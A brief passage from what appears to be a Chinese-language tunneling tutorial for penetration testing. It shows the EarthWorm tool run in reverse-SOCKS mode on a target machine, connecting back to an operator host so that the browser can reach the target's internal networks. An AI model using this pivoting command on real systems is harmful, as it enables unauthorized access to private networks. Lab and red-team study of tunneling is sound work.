 然后在目标机器1（192.168.12.222/192.168.15.222）执行命令

```
ew_for_win_32.exe -s rssocks -d 192.168.12.131 -e 6007 -t 1000000
```

浏览器同样的代理

![image-20230804225542626](img/隧道技术/image-20230804225542626.png)

访问，两个目标机器的内网都能访问

![image-20230804225514104](img/隧道技术/image-20230804225514104.png)
